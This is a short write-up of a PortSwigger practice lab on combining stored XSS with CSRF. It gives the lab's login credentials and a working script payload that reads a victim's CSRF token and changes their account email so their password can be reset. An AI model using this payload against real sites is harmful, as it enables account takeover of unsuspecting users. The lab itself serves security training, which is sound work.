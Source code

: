 # Practitioner Lab 76: Exploiting XSS to perform CSRF

---

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`

![Untitled](Practitioner%20Lab%2076%20Exploiting%20XSS%20to%20perform%20CSRF%2084b2901ae7d741d09f5cb229c7c20f2b/Untitled.png)

First thing I noted was that email can be changed without needing a password. 

This means that I can use XSS to change this email to something I control and then do a password reset.

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=me@me.com')
};
</script>
```

![Untitled](Practitioner%20Lab%2076%20Exploiting%20XSS%20to%20perform%20CSRF%2084b2901ae7d741d09f5cb229c7c20f2b/Untitled%201.png)